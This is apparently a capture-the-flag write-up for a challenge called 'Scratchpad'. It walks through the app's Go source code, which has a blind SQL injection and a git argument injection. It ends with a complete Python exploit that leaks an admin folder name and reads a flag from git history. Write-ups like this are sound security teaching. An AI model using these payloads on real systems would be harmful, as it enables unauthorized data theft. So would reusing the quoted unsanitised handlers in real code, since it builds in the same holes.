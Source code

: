 # Scratchpad

## Description

My new note-taking app is great for jotting down quick thoughts (or flags)!

## Files

* [scratchpad.zip](scratchpad.zip)

## Writeup

This challenge gives us a zip file, so the best thing we can do to start is to extract it!

When we do, we see the source code for a website with a frontend in Vite and a backend using Go.

Looking at `entrypoint.sh`,. we can also see where our flag will be:
```bash
#!/bin/sh
set -e
  
DB_PATH="/app/ctf.db"
USERS_DIR="/app/data"
FLAG=$(cat /flag.txt)
FOLDER=$(uuidgen)
FOLDER_PATH="$USERS_DIR/$FOLDER"
  
echo $FOLDER
  
mkdir -p "$FOLDER_PATH"
  
cd "$FOLDER_PATH"
git init
echo "$FLAG" > scratchpad.txt
git add scratchpad.txt
git commit -m "Add flag"
echo "" > scratchpad.txt
git add scratchpad.txt
git commit -m "Blank file"
cd -
  
sqlite3 "$DB_PATH" <<EOF
CREATE TABLE IF NOT EXISTS users (username TEXT PRIMARY KEY, password TEXT, folder TEXT, filename TEXT);
INSERT INTO users (username, password, folder, filename) VALUES ('admin', 'temppassword', '$FOLDER','scratchpad.txt');
EOF
  
rm /flag.txt
  
/usr/bin/supervisord -c /etc/supervisord.conf
```

Interestingly, it seems the file is hidden in a random folder using `git` version control. The file also does not currently display the flag since it was rewritten as a blank file, but the version history of the file would still display the flag.

Seeing a SQL database containing our folder location, an interesting part of the Go source code starts to stand out.
```go
func usernameCheckHandler(w http.ResponseWriter, r *http.Request) {
    username := strings.ToLower(r.URL.Query().Get("username"))
    row := db.QueryRow(fmt.Sprintf("SELECT 1 FROM users WHERE username = '%s'", username))
    var dummy int
    err := row.Scan(&dummy)
    json.NewEncoder(w).Encode(map[string]bool{"good": err == sql.ErrNoRows})
}
```

This function is linked to the endpoint `/api/username_check` and takes a query string parameter, `username`. However, it directly passes the input into a SQL query with no sanitation, which is very bad. This is a clear example of an SQL injection vulnerability. And ultimately, since the function tells us whether or not there is a row in the output (saying "good" is "true" if there are no rows and "false" if there is a row), we can use standard blind SQL injection.

Now, we just need to figure out what to do with that. The endpoint `/api/revision/` maps to an interesting function that once again fails to properly sanitize user input.
```go
func handleRevision(w http.ResponseWriter, r *http.Request) {
    var req RevisionRequest
  
    claims, err := getClaims(r)
    if err != nil {
        http.Error(w, "Unauthorized", 401)
        return
    }
    folder := claims["folder"].(string)
  
    if err := json.NewDecoder(r.Body).Decode(&req); err != nil {
        http.Error(w, "bad request", 400)
        return
    }
  
    args := strings.Split(req.Action, " ")
    args = append(args, fmt.Sprintf("%s:scratchpad.txt", req.Hash))
    cmd := exec.Command("git", args...)
    cmd.Dir = filepath.Join("data", folder)
  
    out, err := cmd.CombinedOutput()
    if err != nil {
        http.Error(w, string(out), 500)
        return
    }
    w.Write(out)
}
```

Unfortunately, we can't execute arbitrary Bash code here, but we can control a lot with the `git` command. This is the same command we can use to view the version history of the file the flag is in. The only challenges, though, are that the revision hash is included in the format string `%s:scratchpad.txt` at the end of the request, which we don't really want, and this is all done without our user's folder, not the admin folder we want to read the flag from. However, this full command should do the trick:

```bash
git -C ../thefolder log -- scratchpad.txt -- hash:scratchpad.txt
```

The `-C` option enables us to run `git` from another directory other than the current working directory, which we can use to get into the admin folder. The `--` argument tells `git` to process the files, `scratchpad.txt` and `hash:scratchpad.txt` as literal files rather than specific hashes for revisions. The latter of these is simply ignored since it is not a real file.

So our payload `action` is `-C ../thefolder log -- scratchpad.txt --` and our `hash` can be anything. We can use the same Python script we write to perform the SQL injection to give us the payload we'll need.

```python
# Necessary to perform the HTTP requests required to exploit
from requests import get, post
# Necessary to URL encode the SQL injection payload
from urllib.parse import quote_plus as urlencode
# Helps craft the payload to exploit git
from json import dumps
# Stores the necessary character set
import string

# Our host to exploit here
host = "https://jfoubfoe.web.ctf.uscybergames.com/"

# Generates a SQL injection payload for the host
def gen_payload(payload):
    return host + "api/username_check?username=" + urlencode("admin' and " + payload + " and '1'='1")

# Generates a specific payload to compare a character of the folder with a guess character
def gen_substr(idx, char):
    return gen_payload("substr(folder, " + str(idx) + ", 1) = '" + char + "'")

# Performs a GET request with the substring payload
def run_substr(idx, char):
    return get(gen_substr(idx, char)).json()

# Our charset (since it is a UUID)
charset = string.hexdigits + "-"

# Checks an individual index of the folder 
def check_idx(idx):
    # Loop through our charset for each possible guess
    for char in charset:
        # Perform the GET request
        res = run_substr(idx, char)
        # If "good" is "false", it means there is a row and the character matches
        if not res["good"]:
            return char
    # Return an empty string if all characters exhausted (end of folder name)
    return ""

# Stores the folder
folder = ""
# Initialize our guess character
char = "a"
# Start at index 1 (first character in SQL)
i = 1
# Loop while we have a next character
while len(char) > 0:
    # Get the character
    char = check_idx(i)
    # Go to next index after this
    i += 1
    # Add character to known folder name
    folder += char
    # Print progress
    print(folder)

# Action necessary to view the log
action = "-C ../" + folder + " log -- scratchpad.txt --"
# Just a random hash value to complete the request payload
hash_val = "test"
# Create the payload as JSON
body_payload = dumps({"action":action,"hash":hash_val})
# String with fetch payload
full_fetch = "fetch(\"" + host + "api/revision\", {method:\"POST\",body:'"+body_payload+"'});"
# Print the payload so we can run it after logging in
print(full_fetch)

```


Now we can run this!

![SQLi](../../images/Pasted%20image%2020250616205151.png)

After logging in, it ultimately becomes easier to just copy the request from reviewing a revision of our own file so we can include the necessary credentials, but we still use the same payload.

![Fetch](../../images/Pasted%20image%2020250616205309.png)

![Revision data](../../images/Pasted%20image%2020250616205330.png)

Now that we have the revision, we can use a similar `git show` payload to show the flag!

![Fetch 2](../../images/Pasted%20image%2020250616205415.png)

![Flag](../../images/Pasted%20image%2020250616205437.png)

And our flag is `SVUSCG{331be1ddccf6667a5271d4727eb36098}`!
